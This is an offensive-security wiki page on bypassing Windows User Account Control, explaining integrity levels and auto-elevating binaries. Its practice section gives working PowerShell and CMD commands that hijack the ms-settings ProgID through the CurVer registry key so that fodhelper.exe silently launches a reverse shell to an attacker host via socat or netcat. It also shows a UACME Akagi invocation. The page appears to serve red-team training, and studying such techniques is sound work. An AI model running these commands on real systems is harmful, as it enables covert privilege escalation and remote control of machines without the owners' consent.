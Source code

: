 ```yaml
---
description: 'MITRE ATT&CK™ Impair Defenses: Disable or Modify Tools - Technique T1562.001'
---
```


# UAC Bypass

## Theory

The User Account Control [UAC](https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works). Its a Windows security feature that forces any new process to run in the security context of a non-privileged account by default..

### Integrity Levels

UAC is a **Mandatory Integrity Control** (MIC), which is a mechanism that allows differentiating users, processes and resources by assigning an Integrity Level (IL) to each of them. In general terms, users or processes with a higher IL access token will be able to access resources with lower or equal ILs. MIC takes precedence over regular Windows DACLs\
The following 4 ILs are used by Windows, ordered from lowest to highest:

| Integrity Level | Use                                                |
| --------------- | -------------------------------------------------- |
| Low             | Very limited permissions                           |
| Medium          | users and Administrators' filtered tokens.         |
| High            | Administrators' elevated tokens if UAC is enabled. |
| System          | Reserved for system use.                           |

### AutoElevate

some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows. For an application, some requirements need to be met to auto-elevate:\
\- The executable must be signed by the Windows Publisher\
\- The executable must be contained in a trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/\
\- Executable files (.exe) must declare the autoElevate element inside their manifests. To check a file's manifest, we can use sigcheck.

Indeed we can leverage this executables to bypass UAC. Let's dive in:

{% hint style="danger" %}
if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate.
{% endhint %}

## Practice

Microsoft doesn't consider UAC a security boundary but rather a simple convenience to the administrator to avoid unnecessarily running processes with administrative privileges. In that sense any bypass technique is not considered a vulnerability to Microsoft, and therefore some of them remain unpatched to this day.

### Using ProgID and AutoElevate binary to bypass UAC

we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.

{% tabs %}
{% tab title="Powershell" %}
The exploit code is proposed by [V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

```bash
# Using socat
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"
# Or using netcat
$program = "powershell -windowstyle hidden C:\Windows\Temp\nc64.exe 192.168.49.113 443 -e cmd.exe"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

{% hint style="danger" %}
Detected by Windowds Defender
{% endhint %}
{% endtab %}

{% tab title="CMD" %}
V3ded exploit converted in CMD by TryHackMe

```bash
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```
{% endtab %}
{% endtabs %}

### Automated Exploitation

{% tabs %}
{% tab title="UACME" %}
While [UACME](https://github.com/hfiref0x/UACME) provides several tools, we will focus mainly on the one called **Akagi**, which runs the actual UAC bypasses\
If you want to test for method 33, you can do the following from a command prompt, and a high integrity cmd.exe will pop up:

```bash
C:\tools>UACME-Akagi64.exe 33
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/bypassinguac" %}

{% embed url="https://github.com/hfiref0x/UACME" %}

{% embed url="https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses" %}
